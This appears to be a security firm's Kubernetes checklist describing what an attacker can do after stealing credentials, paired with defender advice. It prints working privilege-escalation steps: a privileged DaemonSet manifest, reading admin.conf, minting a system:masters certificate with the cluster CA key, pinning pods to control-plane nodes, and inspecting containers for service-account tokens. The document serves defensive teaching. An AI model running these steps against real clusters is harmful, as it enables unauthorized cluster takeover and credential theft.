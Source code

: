 # From Recon to Root: Kubernetes Credential Compromise Checklist

> 🚨 What happens *after* an attacker steals credentials?  
> This is the real danger—especially in Kubernetes.  
> This guide walks through exactly what an attacker can do next… and how defenders can shut it down.

---

## 🧠 Step 1: Assess What Access You Have

If you've gained access to a user account or service token, your first move is to understand what it's capable of.

### Use `kubectl`:

```bash
kubectl auth can-i --list
```

Or use rakkess:

```bash
rakkess --as <user>
```

This reveals the full RBAC permissions of the compromised identity—your map of what’s possible next.

🚀 Step 2: Privilege Escalation Techniques
Based on what rights are available, these are the most common attacker paths to cluster admin.

🔧 Option A: Create a DaemonSet and Exec Into It
If the compromised user can create daemonsets and exec into pods, this is a quick route to full cluster access.

```yaml

# Minimal DaemonSet YAML for pod exec access
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: root-daemon
spec:
  selector:
    matchLabels:
      name: root-daemon
  template:
    metadata:
      labels:
        name: root-daemon
    spec:
      containers:
        - name: root
          image: alpine
          command: ["sh", "-c", "sleep infinity"]
          securityContext:
            privileged: true
```

Then exec into each pod:

```bash
kubectl exec -it <pod-name> -- /bin/sh
```


If you're lucky and land on a control plane node, you can try to grab:

```bash
/etc/kubernetes/admin.conf
```
Or mint your own cert:

```bash
openssl genrsa -out user1.key 2048
openssl req -new -key user1.key -out user1.csr -subj "/CN=user1/O=system:masters"
openssl x509 -req -in user1.csr -CA /etc/kubernetes/pki/ca.crt -CAkey /etc/kubernetes/pki/ca.key -CAcreateserial -out user1.crt
```

This gives you cluster-admin access.

🔥 Option B: Pod Exec with Control Plane Targeting
If DaemonSets aren't allowed, but Pod creation is:

1. List nodes:

```bash
kubectl get nodes
```

2. Create a Pod with nodeName: set to a control plane node

3. Use tolerations to bypass taints like NoSchedule

4. kubectl exec to gain access and start exploring

🧪 Option C: Steal Tokens at Runtime (CRI Abuse)
With privileged container access on any node, use Docker or CRI to enumerate and inspect containers.

```bash
docker ps
docker inspect <container>
```

Or:

```bash
crictl ps
crictl inspect <container>
```

Look for mounted service account tokens with elevated privileges.

🕵️‍♂️ Defender Tips: How to Detect & Prevent This
✅ Restrict RBAC
Avoid create permissions on sensitive objects like Pods, DaemonSets, Roles, ClusterRoles.

✅ Use PodSecurity Policies (PSPs) or OPA Gatekeeper
Disallow privileged pods, enforce container-level restrictions.

✅ Audit Logs

Watch for:

kubectl exec

New DaemonSet creation

Pod creation on control plane nodes

✅ Rotate Tokens and Certificates
Short-lived tokens reduce the window for abuse.

✅ Use Tools Like:

kubeaudit

rakkess

kube-hunter

💬 Final Thoughts
Attackers don't need exploits—just access.

And with most breaches starting at the identity layer, this is where your defenses must begin. If you're serious about Kubernetes security, reconnaissance and misconfigured RBAC should keep you up at night.

—

🔒 Need help securing your Kubernetes or IAM setup? Book a free review

© Red Dog Security – Use, remix, and improve this with attribution. Licensed under MIT.
